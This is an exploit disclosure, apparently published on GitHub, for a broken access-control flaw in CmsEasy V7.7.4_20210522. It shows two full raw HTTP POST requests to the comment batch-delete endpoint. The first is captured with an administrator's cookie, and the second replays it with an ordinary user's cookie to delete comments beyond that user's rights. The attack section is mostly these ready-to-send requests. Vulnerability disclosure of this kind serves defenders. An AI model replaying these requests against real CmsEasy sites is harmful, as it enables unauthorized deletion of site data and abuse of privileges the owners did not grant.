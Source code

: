 ## Information

```c
Exploit Title:CmsEasy.V7.7.4_20210522-Access control error
Exploit date:25.05.2021
Exploit Author:Al1ex@Heptagram
Vendor Homepage:https://www.cmseasy.cn/
Affect Version:V7.7.4_20210522
Description:Ordinary users can delete user comment information which can only be deleted by administrators
```

## How to Exploit

**Step 1：Log in the background with an administrator account, click Delete comment information, and use burpsuite to capture the package**

```javascript
POST /index.php?case=table&act=batch&table=comment&admin_dir=admin&site=default&dfile=&page=1 HTTP/1.1
Host: 192.168.174.1
Content-Length: 40
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.174.1
Referer: http://192.168.174.1/index.php?case=index&act=index&admin_dir=admin&site=default
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=k79gumd09u825r1t3pruekkgsr; lockingfalsetest2=2; loginfalse=0; loginfalse74c6352c5a281ec5947783b8a186e225=2; login_password=972af30e54f47432662167c8a92badf8; login_username=admin
Connection: close

select%5B%5D=8&batch=delete&getto_page=1
```

![info](img/delete1.png)

After copying a request packet and dropping the current packet, refresh the page to ensure that the current packet has not been modified

![check](img/check1.png)

**Step 2：Using the cookie of test1 user to send the request packet, it is found that the comment information can be successfully deleted beyond the authority**

```javascript
POST /index.php?case=table&act=batch&table=comment&admin_dir=admin&site=default&dfile=&page=1 HTTP/1.1
Host: 192.168.174.1
Content-Length: 40
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.174.1
Referer: http://192.168.174.1/index.php?case=index&act=index&admin_dir=admin&site=default
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=r9t36f9b1qok6079c54h41q61f; Hm_lvt_eaa57ca47dacb4ad4f5a257001a3457c=1621906612; Hm_lpvt_eaa57ca47dacb4ad4f5a257001a3457c=1621990370; loginfalse=0; login_username=test1; login_password=972af30e54f47432662167c8a92badf8
Connection: close

select%5B%5D=8&batch=delete&getto_page=1
```

![exploi](img/exp.png)

After refreshing the comment page, it is found that the comment has been successfully deleted

![check2](img/check2.png)

## Reference

https://www.cmseasy.cn/
